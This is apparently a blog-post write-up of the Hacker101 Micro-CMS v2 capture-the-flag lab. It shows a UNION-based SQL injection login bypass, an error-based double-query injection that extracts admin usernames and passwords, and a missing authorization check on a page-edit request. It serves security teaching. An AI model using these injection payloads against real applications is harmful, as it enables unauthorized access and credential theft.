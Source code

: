 ```yaml
---
title: 'Hackerone CTF: Micro-CMS v2'
excerpt: 'The trials of a harder-than-advertised sql injection ctf.'
coverImage: '/images/cover-images/hackerone-ctf-micro-cms-v2.jpg'
date: '2020-06-01'
ogImage:
  url: '/images/cover-images/hackerone-ctf-micro-cms-v2.jpg'
---
```

The other day, I subumitted a bug to hackerone and I noticed they had a [ctf section](https://www.hacker101.com/). They exercises so far are fun, pretty straight forward, and earn you invites to private bug bounty programs.

I wanted to detail my experience with their `Micro-CMS v2` ctf, the second and more advanced ctf following Micro-CMS v1, because it went from easy to what feels like advanced toot sweet. Where Micro-CMS v1 dealt mostly with XSS, v2 mostly deals with SQL injection.

## Finding Flag0
Unlike v1, any action besides viewing pages redirects you to a login page.
![IMG1](/images/hackerone-ctf-micro-cms-v2/one.gif)

If the login code used something like this to authenticate:

~~~SQL
SELECT * FROM users
WHERE name='%s'
and password='%s'
~~~

Then this would have worked...
![IMG2](/images/hackerone-ctf-micro-cms-v2/two.gif)

But it did not. And it's back to the drawing board.
![IMG3](/images/hackerone-ctf-micro-cms-v2/three.gif)

My first break came when I put a simple singular quote in the user name (`username='`) and submitted. It spit out the following error.
~~~Python
Traceback (most recent call last):
  File "./main.py", line 145, in do_login
    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1")
~~~

Now we know the query for authentication:
~~~SQL
SELECT password FROM admins WHERE username='%s'
~~~

And here's the statement that'll get authenticated:
~~~SQL
SELECT password FROM admins WHERE username='' or '0'='1' UNION ALL SELECT '1234'
~~~
![IMG4](/images/hackerone-ctf-micro-cms-v2/four.gif)
The '0'='1' negates the first select and instead returns `1234` as the value of `password`. And it's after successful login that we are given the first flag.


## Finding Flag1
Now, as authorized users, we can edit pages. This is done via POST request on pages with urls like `/page/edit/1`. I did exactly that, then logged out, repeated the same request, having removed the cookie. And jackpot! Looks like the someone forgot to test auth in the edit page's post request logic.
![IMG5](/images/hackerone-ctf-micro-cms-v2/five.gif)


## Finding Flag2
If this was all there was, I don't think I would be writing this up. It's this next flag that was a real brain-wrinkler. The only hint given to us is this: `Credentials are secret, flags are secret. Coincidence?` So it looks like we need to acquire the login and the password.

The only data we can get from the database seems to be either an error when we create an faulty sql command, like the one that exposed the SQL, or when we attempt to log in. But even then we are either successful thru the UNION injection at which point we are redirected and get no information divulged, or 'Unknown user' or 'Invalid Password' when we try to login unsuccessfully.

So how do we retrieve the credentials?

#### Double Query Injection
They key to this technique is the `GROUP BY` modifier. When combined with the aggregate function like count(*) we produce a `Duplicate entry` error that outputs the data we select for.

This looks complicated, but let's make it easier to parse visually:
~~~SQL
' OR (
	SELECT 1 from (
		select count(*), 
		concat((SELECT username FROM admins LIMIT 0,1),'~~~',floor(rand(0)*2)) 
		 as c from information_schema.tables group by c
		) as a
	) 
AND '1' = '1
~~~

And lets break it down some more:
~~~SQL
concat((SELECT username FROM admins LIMIT 0,1),'~~~',floor(rand(0)*2)) 
~~~
This select statement is our payload, so to speak. You could even pass functions `SELECT database()` if you wanted discover other info. In this case, it'll retrieve our username, and one could increase to LIMIT 1,1 to get the username of the next row.

~~~SQL
as c from information_schema.tables group by c
~~~
`information_schema.tables` is used here because it will reliably have enough rows in it to trigger our duplication, we are not actually retrieving any data from this table

~~~SQL
) as a
~~~
`as a` alias is used because we get this error without it:` OperationalError: (1248, 'Every derived table must have its own alias')`

Feeding this string to the username param and POSTing it returns this error from the server:
![IMG6](/images/hackerone-ctf-micro-cms-v2/six.gif)

So here we have our login, `evalina`.

We do the same request except we change the column of the nested SELECT statement from `username` to `password`. Now we have our credentials, we log in, and the flag is ours.